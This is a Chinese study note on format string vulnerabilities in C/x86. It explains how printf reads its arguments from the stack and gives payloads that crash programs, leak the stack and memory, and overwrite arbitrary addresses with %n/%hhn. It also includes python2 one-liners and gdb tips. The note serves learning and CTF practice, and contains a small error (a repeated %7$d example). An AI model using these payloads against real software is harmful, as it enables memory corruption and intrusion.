

## 1 原理

在 x86 结构下，格式字符串的参数是通过栈传递的。 printf 是变长的，如果没有标记栈边界，就会导致 printf 函数随意操纵栈空间。
format string 的输出个数和调用者实际打算的输出 arg **个数不一致** 。
printf( format , arg1 ,arg2 ,arg3 .....)

## 2 漏洞利用

### 2.1 使程序崩溃

输入超长格式化字符串，导致内存访问越界
```bash
printf("%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s")
```

在 Linux 中，存取无效的指针会引起进程收到 `SIGSEGV` 信号，从而使程序非正常终止并产生**核心转储**（在 Linux 基础的章节中详细介绍了核心转储）。我们知道核心转储中存储了程序崩溃时的许多重要信息，这些信息正是攻击者所需要的。

### 2.2 查看栈内容

由于在 x86 上栈由高地址向低地址增长，而 `printf()` 函数的参数是以逆序被压入栈的，所以**参数在内存中出现的顺序与在 `printf()` 调用时出现的顺序是一致的。**


如果我们想要直接获得被指定的某个参数，则可以使用类似下面的格式字符串：

```text
%<arg#>$<format>

%k$x
```

### 2.3 查看任意地址的内存

攻击者可以**使用一个“显示指定地址的内存”的格式规范**来查看任意地址的内存。例如，使用 `%s` 显示参数　指针所指定的地址的内存。

```bash
# 打印地址
%7$x
1e240

# 打印数字
%7$d
123456

# 打印字符串
%7$d
123456
```

如果我们想获取的是任意的地址的内容，就需要我们自己将地址写入到栈中。我们输入 `AAAA.%p` 这样的格式的字符串，观察一下栈有什么变化。

以上要求的漏洞利用条件包括3个

- 可以输入
- 知道输入数据在哪里，可以找到
- 使用指针类型访问内存的格式化字符串，显示对应的字符

### 2.4 覆盖栈内容

`%n` 转换指示符将 `%n` 当前已经成功写入流或缓冲区中的字符个数存储到**地址由参数位置指定的对应的栈位置上**。

说人话就是 %n 会把打印的字符串长度写入栈中，写入栈的位置由 %n 所在的参数位置决定。

通过使用具体的宽度或精度的转换规范来控制写入的字符个数，即在格式字符串中加上一个十进制整数来表示输出的最小位数.

```c
printf("%0134512640d%n\n", 1, &i);
$ ./a.out
...
0x8048000
```

此处没有看懂，为什么会是这样构造的，为什么打印的所有字符串长度会直接存储到开始的地址。

```bash
\x38\xd5\xff\xff%08x%08x%012d%13$n

4+16+12=32字节
%13$n
```

### 2.5 覆盖任意地址栈内容

注意：**构造 payload 的时候 8 字节对齐。**

#### 2.5.1 覆盖长度小于4

```bash
# 0xffffd538 = 2 
"AA%15$nA"+"\x38\xd5\xff\xff"
```

#### 2.5.2 大数字覆盖

 **逐字节的覆盖**

可以通过长度字段控制写入的大小

如

```bash
$ python2 -c 'print("A%15$hhn"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88888801      0xffffffff
```

## 3  常见格式化字符串漏洞函数

- printf

特殊格式化字符

| 字符 | 说明                                           |
| ---- | ---------------------------------------------- |
| *n*$ | n 是**参数**编号，操作对应的栈上的数据。       |
| %n   | 将该占位符前面的所有输出长度写入栈上的对应参数 |
|      |                                                |

格式化字符介绍

共分为：
- 参数字段  如 n$
- 宽度字段  %kd
- 精度字段
- 长度字段  如 hh / 1byte 、 h / 2byte 
- 类型字段，如 x ，d

## 4 思考

- 如何测试格式化字符串漏洞? 是否存在， fuzz with 超长格式化字符串，如果程序退出了，那么很可能存在格式化字符串。
  可以在路由器固件中测试格式化字符串函数。

- 核心转储 ？ 

## 5 小技巧

```bash
##  如何输入二进制地址 0xffffd538
python2 -c 'print("AA%15$nA"+"\x38\xd5\xff\xff")' > text

##   gdb 调试的时候输入构造的二进制数据
r < text 
```

**注意：**

调试的时候首先需要关闭 ASLR， 这可以保证栈在 gdb 环境中运行内存地址不会变化。但是直接运行和在 gdb 调试的时候，栈地址不一定是相同的。

## 6 参考

- [ctf all in one 格式化字符串漏洞](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.1_format_string.html#%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)
- [Wiki  printf c format string](https://en.wikipedia.org/wiki/Printf_format_string#:~:text=printf%20format%20string%20refers%20to,and%20many%20other%20programming%20languages.)